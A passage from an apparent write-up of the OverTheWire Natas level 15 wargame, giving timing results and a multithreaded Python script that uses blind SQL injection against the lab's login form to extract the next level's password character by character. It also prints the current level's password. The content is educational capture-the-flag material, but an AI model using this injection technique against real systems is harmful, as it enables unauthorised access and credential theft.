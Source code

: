 ```python
end_script = time.perf_counter()
print(f'\nCompleted in {round(end_script - start_script, 2)} seconds')
```

#### Multithreaded 
Script Performance
```
Filtering characters completed in 2.38 seconds
Password search completed in 34.44 seconds

Completed in 36.81 seconds
```

Here's the code:
```python
#!/usr/bin/env python
import time
import string
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures

start_script = time.perf_counter()
all_chars = list(string.ascii_uppercase + string.ascii_lowercase + string.digits)
natas15_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"  # Password for the current level
natas16_password = ""  # Buffer for the next level password
filtered_chars = ""


def get_chars(char):
    data = {'username': 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    req = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug',
                        auth=HTTPBasicAuth('natas15', natas15_password), data=data)

    if 'exists' in req.text:
        return char
    else:
        return None


start_filter = time.perf_counter()
with concurrent.futures.ThreadPoolExecutor() as executor:
    result = executor.map(get_chars, all_chars)

    for r in result:
        if r is not None:
            print(r, end='', flush=True)
            filtered_chars = filtered_chars + str(r)

end_filter = time.perf_counter()
print(f'\nFiltering characters completed in {round(end_filter - start_filter, 2)} seconds')


def get_password(fc):
    data = {'username': 'natas16" and password LIKE BINARY "' + natas16_password + str(fc) + '%" #'}
    req = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug',
                        auth=HTTPBasicAuth('natas15', natas15_password), data=data)

    if 'exists' in req.text:
        return str(fc)
    else:
        return None

```
